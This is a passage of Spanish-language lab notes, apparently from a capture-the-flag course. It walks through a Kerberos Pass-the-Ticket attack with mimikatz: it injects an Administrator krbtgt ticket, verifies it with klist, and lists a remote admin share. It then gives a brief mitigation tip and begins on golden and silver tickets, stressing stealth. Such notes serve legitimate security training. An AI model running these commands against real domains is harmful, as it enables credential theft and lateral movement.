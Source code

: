 - Para este ejercicio buscamos el ticket de administrador de krbtgt. Quizas debamos entrar u salir de mimikatz saldremos escribiendo `exit`.
    
    ![image.png](image%2024.png)
    
    `[0;3e69b]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
    

- Ya podemos empezar ala lanzar el ataque. Almacenamos el Ticket en la cache. y salimos de mimikazt
    
    `kerberos::ptt [0;3e69b]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
    
    ![image.png](image%2025.png)
    
    `exit`
    
- Verificamos que el Ticket esta dentro de la cache
    
    `klist`
    
    ![image.png](image%2026.png)
    
    Ya tenemos los mismos derechos del ticket que estamos suplantando podemos comprobarlo de listando los recursos compartidos del administrador
    
    `dir \\10.10.237.124\admin$`
    
    ![image.png](image%2027.png)
    

### **Pass the Ticket** mitigación

Hablemos del equipo azul y de cómo mitigar este tipo de ataques.

- No permita que los administradores de su dominio inicien sesión en nada excepto en el controlador de dominio: esto es algo tan simple, sin embargo, muchos administradores de dominio aún inician sesión en computadoras de bajo nivel dejando tickets que podemos usar para atacar y movernos lateralmente.

---

## Ataques de boletos dorados / plateados con mimikatz

Un boleto plateado a veces se puede usar mejor en compromisos en lugar de un boleto dorado porque es un poco más discreto. Si el sigilo y pasar desapercibido importan, entonces un boleto plateado es probablemente una mejor opción que un boleto dorado, sin embargo, el enfoque para crear uno es exactamente el mismo. La diferencia clave entre los dos vales es que un billete plateado se limita al servicio al que se dirige, mientras que un billete dorado tiene acceso a cualquier servicio Kerberos.

![image.png](image%2028.png)

- Nos movemos al directorio **Downloads**
    
    `cd Downloads`
    
- Ejecutamos mimikatz
    